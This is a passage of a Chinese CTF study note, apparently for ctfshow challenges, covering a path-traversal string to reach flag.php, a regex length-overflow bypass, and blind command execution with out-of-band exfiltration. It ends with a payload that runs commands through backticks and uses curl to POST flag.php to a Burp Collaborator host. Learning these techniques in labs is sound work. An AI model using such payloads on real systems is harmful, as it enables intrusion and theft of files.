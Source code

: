 ```php
f=../ctfshow/../../flag.php//虽然ctfshow目录不存在，但是可以访问
```

- 记得查看源代码

### 溢出绕过正则表达式

:::info
正则表达式对长度有限制，当超过一定长度时，就不再检测
:::
![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669089056342-03b72ec1-2375-42c1-85af-a4ae26380538.png#averageHue=%23fefefd&clientId=u1cecbf18-abab-4&from=paste&height=227&id=u6babfe5d&originHeight=500&originWidth=720&originalType=binary&ratio=1&rotation=0&showTitle=false&size=43526&status=done&style=none&taskId=uf2788f21-334a-483e-bc7b-33ad410e92e&title=&width=327.2727201792821)

```php
<?php
echo str_repeat('very', 250000).'36Dctfshow';
?>
```

### 无回显命令执行

#### curl 带出

##### curl

[https://www.jianshu.com/p/6049f23ee204](https://www.jianshu.com/p/6049f23ee204)

- 在Linux中curl是一个利用URL规则在命令行下工作的文件传输工具，可以说是一款很强大的http命令行工具。它支持文件的上传和下载，是综合传输工具，但按传统，习惯称url为下载工具

##### Burp Collaborator

[https://blog.csdn.net/fageweiketang/article/details/89073662](https://blog.csdn.net/fageweiketang/article/details/89073662)<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669212557549-4846a352-5f4d-42bb-9369-9dadf2454fe5.png#averageHue=%23fefdfc&clientId=ud4c65044-a7b8-4&from=paste&height=435&id=u420305ca&originHeight=957&originWidth=1744&originalType=binary&ratio=1&rotation=0&showTitle=false&size=211720&status=done&style=none&taskId=udebe1b43-0eba-4510-85ca-add92343edc&title=&width=792.7272555453721)

- 首先 burp 发送 payload 给目标程序，以上图为例，param 存在漏洞注入点，其 payload 为外部的服务器 url 地址，随后目标程序若进行解析或则引用调用等，则会去访问这个地址，而这个地址是我们的 collaborator 服务器，所以 collaborator 会记录**其访问的请求信息以及响应信息和 dns 的信息**。
- 而当 burp 发送 payload 后，就会不断的去问 collaborator 服务器，你收到我发送的 payload 交互了么，这时 collaborator 就会将交互信息告诉 burp，burp 最后进行报告。

##### 例题

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669212453633-e1c71f33-feb7-4dd1-9fae-28b27c17d74c.png#averageHue=%23fefdfd&clientId=ud4c65044-a7b8-4&from=paste&height=148&id=u4ee6380a&originHeight=326&originWidth=1000&originalType=binary&ratio=1&rotation=0&showTitle=false&size=36175&status=done&style=none&taskId=u81c0143c-51b1-477e-b91c-bbdc9c67ede&title=&width=454.54544469344734)

- 这个里面只能用反引号执行命令，反引号相当于shell_exec，对于执行结果没有回显，因此需要curl带外攻击，即需要一个新的服务器参与

payload：

```php
?F=`$F`;+curl -X POST -F xx=@flag.php  http://8clb1g723ior2vyd7sbyvcx6vx1ppe.burpcollaborator.net
//前面是变量覆盖，-X指定请求的方式
```
